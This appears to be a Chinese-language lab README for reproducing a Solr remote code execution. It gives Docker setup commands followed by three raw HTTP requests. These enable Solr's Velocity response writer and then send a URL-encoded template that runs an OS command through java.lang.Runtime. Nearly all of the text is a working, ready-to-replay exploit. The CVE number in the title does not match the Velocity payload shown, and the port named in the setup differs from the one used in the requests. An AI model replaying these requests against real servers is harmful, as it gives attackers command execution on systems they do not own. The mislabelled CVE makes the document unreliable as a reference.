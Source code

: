 # Apache Solr CVE-2019-0193 环境搭建漏洞复现

 docker pull scxiaotan2/apache-solr:cve-2019-0193  # 拉去镜像
 
 docker run -it scxiaotan2/apache-solr:cve-2019-0193 /bin/bash #启动shell

./start.sh #启动根目录下的服务

netstat -tlnp #可以看到1983端口启用了


# Solr CVE-2019-0193 漏洞复现

使用BurpSuite 对数据包重放

第一步：

GET /solr/te1/config HTTP/1.1

Host: 172.17.0.3:8983

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0

Accept: application/json, text/plain, */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Referer: http://172.17.0.3:8983/solr/

Connection: close

第二步：

post /solr/te1/config HTTP/1.1

Host: 172.17.0.3:8983

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0

Accept: application/json, text/plain, */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Referer: http://172.17.0.3:8983/solr/

Connection: close

Content-Length: 259




{

  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }

}


第三步

post /solr/te1/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end  HTTP/1.1

Host: 172.17.0.3:8983

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0

Accept: application/json, text/plain, */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Referer: http://172.17.0.3:8983/solr/

Connection: close

Content-Length: 259




{
  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }
}
